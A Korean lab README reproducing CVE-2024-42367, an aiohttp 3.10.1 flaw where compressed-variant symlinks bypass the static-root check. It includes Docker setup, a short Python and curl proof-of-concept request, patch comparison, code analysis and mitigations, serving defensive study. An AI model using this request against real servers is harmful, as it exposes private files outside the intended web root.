



# aiohttp 압축 변형 심볼릭 링크 경로 경계 우회 (CVE-2024-42367)

**Contributors**

- [권민준(@jjagong)](https://github.com/jjagong)

## 1. 취약점 개요

aiohttp는 Python의 비동기 HTTP 클라이언트·서버 프레임워크이다. CVE-2024-42367은 aiohttp의 정적 파일 응답 처리 과정에서 `.gz` 또는 `.br` 압축 변형 파일이 심볼릭 링크일 때 정적 루트 디렉터리 경계 검사가 누락되는 취약점이다.

일반 정적 파일은 `follow_symlinks=False`인 경우 링크가 정적 루트 밖을 가리키는지 검사한다. 그러나 취약 버전의 `FileResponse`는 압축 변형 파일을 선택할 때 `Path.stat()`을 사용하여 심볼릭 링크를 따라간다. 이 때문에 압축 변형 링크가 정적 루트 외부 파일을 가리키면 해당 파일의 내용이 HTTP 응답으로 노출될 수 있다.

- CVE: CVE-2024-42367
- CWE: CWE-61, UNIX Symbolic Link Following
- 영향받는 버전: aiohttp 3.10.0 이상 3.10.2 미만
- 실습 취약 버전: aiohttp 3.10.1
- 수정 버전: aiohttp 3.10.2
- 공식 심각도: Low
- 공식 권고: <https://github.com/aio-libs/aiohttp/security/advisories/GHSA-jwhx-xcg6-8xhj>
- 수정 커밋: <https://github.com/aio-libs/aiohttp/commit/ce2e9758814527589b10759a20783fb03b98339f>
- NVD: <https://nvd.nist.gov/vuln/detail/CVE-2024-42367>

## 2. 환경 구성

### 2.1. 필요 환경

- Docker Engine 또는 Docker Desktop
- Docker Compose v2 (`docker compose` 명령)
- 사용 포트: TCP 8080

PoC는 별도 컨테이너에서 실행되며, 심볼릭 링크는 Dockerfile을 통해 컨테이너 내부에 생성된다. 따라서 호스트에 Python이나 curl을 별도로 설치할 필요가 없다.

Dockerfile에서 Python 3.11 환경에 aiohttp 3.10.1을 설치하도록 구성했고, 이미지 digest와 패키지 버전을 고정했다.

### 2.2. 실습 파일 구조

```text
CVE-2024-42367/
├── docker-compose.yml
├── Dockerfile
├── app.py
├── poc.py
├── README.md
└── images/
```

### 2.3. 취약 환경 실행

이 README가 있는 디렉터리에서 다음 명령을 실행한다.

```bash
docker compose up --build -d
```

컨테이너 상태를 확인한다.

```bash
docker compose ps
```

`vulnerable` 서비스가 `healthy`로 표시되면 환경 구성이 완료된 것이다. 브라우저에서 `http://localhost:8080/`에 접속하면 aiohttp 버전과 `follow_symlinks` 설정을 확인할 수 있다.




## 3. 취약점 발생 조건

다음 조건을 모두 만족할 때 취약점이 발생한다.

1. aiohttp 3.10.0 또는 3.10.1을 서버로 사용한다.
2. `add_static()`으로 정적 파일 라우트를 제공한다.
3. 정적 루트 안에 `.gz` 또는 `.br` 확장자를 가진 압축 변형 파일이 존재한다.
4. 압축 변형 파일이 정적 루트 밖의 파일을 가리키는 심볼릭 링크이다.
5. 클라이언트가 해당 압축 형식을 허용하는 `Accept-Encoding` 헤더를 전송한다.

이 실습에서는 Docker 이미지 빌드 과정에서 다음 상태를 자동으로 구성한다.

```text
/srv/public/report.txt.gz -> /srv/private/secret.txt
```

`/srv/public`은 공개 정적 루트이고 `/srv/private/secret.txt`는 외부에 공개되지 않아야 하는 파일이다. 애플리케이션은 `follow_symlinks=False`로 설정되어 있다. 그러나 aiohttp 3.10.1은 압축 변형 파일을 처리하는 과정에서 심볼릭 링크를 따라가 정적 루트 밖의 파일을 반환한다.

실제 공격에서는 정적 디렉터리에 이러한 심볼릭 링크가 이미 존재하거나, 공격자가 파일 업로드 또는 배포 과정 등을 통해 압축 변형 링크를 생성할 수 있어야 한다. 이러한 전제 조건으로 인해 공식 권고의 심각도는 Low로 평가된다.

## 4. 재현 절차 및 PoC

### 4.1. 자동 PoC 실행

다음 명령으로 PoC를 실행한다.

```bash
docker compose run --rm poc
```

PoC는 다음 세 요청을 순서대로 비교한다.

1. `/static/public.txt`를 요청하여 정상 정적 파일 제공 여부를 확인한다.
2. `Accept-Encoding: gzip` 없이 `/static/report.txt`를 요청하여 원본 파일이 없으므로 404가 반환되는지 확인한다.
3. 동일 경로에 `Accept-Encoding: gzip`을 추가하여 `.gz` 심볼릭 링크의 대상 내용이 반환되는지 확인한다.

성공하면 아래 문구가 출력된다.

```text
CVE-2024-42367_SECRET: compressed_symlink_boundary_bypass
[+] VULNERABLE: static-root boundary bypass confirmed
```



### 4.2. PoC 코드

공격 요청은 다음과 같다.

```python
req = urllib.request.Request(
    "http://vulnerable:8080/static/report.txt",
    headers={"Accept-Encoding": "gzip"},
)
with urllib.request.urlopen(req) as response:
    print(response.read().decode())
```

전체 자동 검증 코드는 [`poc.py`](poc.py)에 포함되어 있다. 응답 상태가 200이고 본문에 고유 비밀 문자열이 존재할 때만 종료 코드 0으로 성공한다.

### 4.3. 수동 HTTP 요청(선택 사항)

호스트에 curl이 설치되어 있다면 다음 명령으로도 확인할 수 있다.

```bash
curl -i -H "Accept-Encoding: gzip" http://localhost:8080/static/report.txt
```

curl의 자동 압축 해제 옵션인 `--compressed`는 응답 본문이 실제 gzip 스트림이라고 가정하므로 이 PoC에서는 사용하지 않는다.

## 5. 실행 결과

취약한 aiohttp 3.10.1은 `/srv/public/report.txt.gz`를 압축 변형으로 선택한 뒤 `Path.stat()`과 파일 열기 과정에서 심볼릭 링크를 따라간다. 그 결과 정적 루트 밖의 `/srv/private/secret.txt` 내용이 HTTP 200 응답으로 반환된다.

반면 `Accept-Encoding: gzip`이 없는 요청은 압축 변형을 선택하지 않으며, `/srv/public/report.txt` 원본 파일이 존재하지 않으므로 HTTP 404를 반환한다. 두 요청의 차이는 취약점이 URL 디렉터리 트래버설 문자열이 아니라 압축 변형 파일 선택 로직에서 발생한다는 점을 보여준다.

### 5.1. 수정 버전과 비교 검증

aiohttp 3.10.2 컨테이너를 추가로 실행한다.

```bash
docker compose --profile patched up --build -d patched
```

수정 버전에 같은 요청을 보낸다.

```bash
docker compose run --rm poc python poc.py http://patched:8080
```

수정 버전은 심볼릭 링크인 압축 변형을 무시하고 원본 `report.txt`를 찾는다. 원본 파일이 없으므로 HTTP 404가 반환되고 PoC는 `[-] NOT VULNERABLE`을 출력한다. 이 명령은 차단을 검증하므로 PoC 프로세스의 종료 코드는 1이 정상이다.



## 6. 취약점 분석

취약 버전은 압축 변형 경로에 대해 다음과 같은 동작을 수행했다.

```python
compressed_path = file_path.with_suffix(file_path.suffix + file_extension)
return compressed_path, compressed_path.stat(), file_encoding
```

`Path.stat()`은 심볼릭 링크 대상의 상태를 반환하며 이후 파일을 열 때에도 링크 대상이 사용된다. aiohttp 3.10.2에서는 `lstat()`으로 링크 자체의 상태를 확인하고 일반 파일일 때만 압축 변형으로 선택하도록 수정했다.

```python
st = compressed_path.lstat()
if S_ISREG(st.st_mode):
    return compressed_path, st, file_encoding
```

심볼릭 링크는 일반 파일이 아니므로 수정 버전에서는 압축 변형 후보에서 제외된다.

## 7. 대응 방안

1. aiohttp를 3.10.2 이상으로 업데이트한다.
2. 정적 콘텐츠는 aiohttp 애플리케이션에서 직접 제공하기보다 nginx 등 검증된 리버스 프록시 또는 별도의 정적 파일 서버를 사용한다.
3. 정적 디렉터리에 심볼릭 링크가 포함되지 않도록 배포 산출물을 검사한다.
4. 파일 업로드 및 압축 해제 기능이 심볼릭 링크를 생성하거나 보존하지 못하도록 제한한다.
5. 애플리케이션 프로세스 계정에 필요한 파일만 읽을 수 있도록 최소 권한을 적용한다.
6. 패치가 즉시 불가능하다면 `.gz` 및 `.br` 압축 변형 파일을 제거하거나 일반 파일로 교체한다.

## 참고 자료

- aiohttp 공식 보안 권고: <https://github.com/aio-libs/aiohttp/security/advisories/GHSA-jwhx-xcg6-8xhj>
- aiohttp 3.10 브랜치 수정 커밋: <https://github.com/aio-libs/aiohttp/commit/ce2e9758814527589b10759a20783fb03b98339f>
- NVD CVE-2024-42367: <https://nvd.nist.gov/vuln/detail/CVE-2024-42367>
- CWE-61: <https://cwe.mitre.org/data/definitions/61.html>
